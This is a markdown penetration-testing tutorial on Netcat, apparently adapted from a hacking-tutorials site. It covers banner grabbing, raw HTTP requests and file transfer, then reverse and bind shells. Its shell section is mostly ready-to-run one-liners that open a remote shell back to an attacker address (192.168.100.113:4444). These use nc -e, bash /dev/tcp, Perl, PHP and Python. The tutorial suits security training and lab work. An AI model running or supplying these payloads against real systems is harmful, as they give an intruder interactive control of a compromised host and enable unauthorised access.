 ## Netcat

#### Netcat banner grabbing
```
$ nc [ip address][port]
```


#### Netcat raw connection

To demonstrate how a raw connection works we will issue some FTP commands after we’re connected to the target host on the FTP service. Let’s see if anonymous access is allowed on this FTP server by issuing the USER and PASS command followed by anonymous.


#### Web server interaction

Netcat can also be used to interact with webservers by issuing HTTP requests.
```
$ nc 192.168.100.108 80
```

and the run
```
HEAD / HTTP/1.0
```



To retrieve the top level page on the webserver we can issue the following command:

```
$ nc 192.168.100.108 80
```
and run the following HTTP request:
```
GET / HTTP/1.0
```
#### File transfers with Netcat

In this example we will be using a Netcat connection to transfer a text file. Let’s assume we have remote command execution on the target host and we want to transfer a file from the attacker box to the host. First we would need to set up a listener on the target host and connect to it from the attacker box. We will be using port 8080 for this purpose and we safe the file to the desktop:

```
$ nc -lvp 8080 > /root/Desktop/transfer.txt
```
On the attacker box(our machine) we connect to port 8080 and send a file name transfer.txt:

```
$ nc 192.168.100.107 8080 < /root/Desktop/transfer.txt
```

### Netcat reverse shells

A very popular usage of Netcat and probably the most common use from penetration testing perspective are reverse shells and bind shells. A reverse shell is a shell initiated from the target host back to the attacker box which is in a listening state to pick up the shell. A bind shell is setup on the target host and binds to a specific port to listens for an incoming connection from the attacker box. In malicious software a bind shell is often revered to as a backdoor.

In the following paragraphs we will be demonstrating the use of bind and reverse shell. We will be using port 4444 throughout this tutorial but please note that this can be any open port instead. In fact, often you need to use more common ports like 80 and 443 to setup reverse shells as it is more common for these ports to be open.

#### Setting up Netcat Reverse Shells


![](just-data/ncatrevshell.jpg)

In order to setup a Netcat reverse shell we need to follow the following steps:

1. Setup a Netcat listener.
2. Connect to the Netcat listener from the target host.
3. Issue commands on the target host from the attacker box.


First we setup a Netcat listener on the attacker box which is listening on port 4444 with the following command:

```
$ nc –lvp 4444

```

Than we issue the following command on the target host to connect to our attacker box (remember we have remote code execution on this box):

```
$ nc 192.168.100.113 4444 –e /bin/bash

```

for windows:
```
nc.exe 192.168.100.113 4444 –e cmd.exe
```

#### Reverse shell without Netcat on the target host

One major downside on the shown example is that you need Netcat on that target host which is very often not the case in real world scenario’s. In some cases Netcat is present, or we have a way to install it, but in many cases we need to use alternatives ways to connect back to the attacker box. Let’s have a look at a few alternative ways to setup a reverse shell.

##### Bash reverse shell

With can also use Bash to initiate a reverse shell from the target host to the attacker box by using the following command:

```
$ bash -i >& /dev/tcp/192.168.100.113/4444 0>&1
```

##### Perl reverse shell

```
$ perl -e ‘use Socket;$i=”192.168.100.113″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
```

##### PHP reverse shell

```
$ php -r ‘$sock=fsockopen(“192.168.100.113”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’

```

##### Python reverse shell


```
$ python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

#### Netcat Bind Shell

As we’ve mentioned earlier in this Hacking with Netcat tutorial a bind shell is a shell that binds to a specific port on the target host to listen for incoming connections. Let’s have a look at the visualization of a bind Netcat shell:


![](just-data/ncatbindshell.jpg)


In this visualization the target binds a Bash shell to port 4444 using a Netcat listener. The attacker connects to this port using a simple Netcat command. The steps to setup a bind shell are as following:


1. Bind a bash shell to port 4444 using Netcat.
2. Connect to the target host on port 4444 from the attacker box.
3. Issue commands on the target host from the attacker box.




### sources

https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/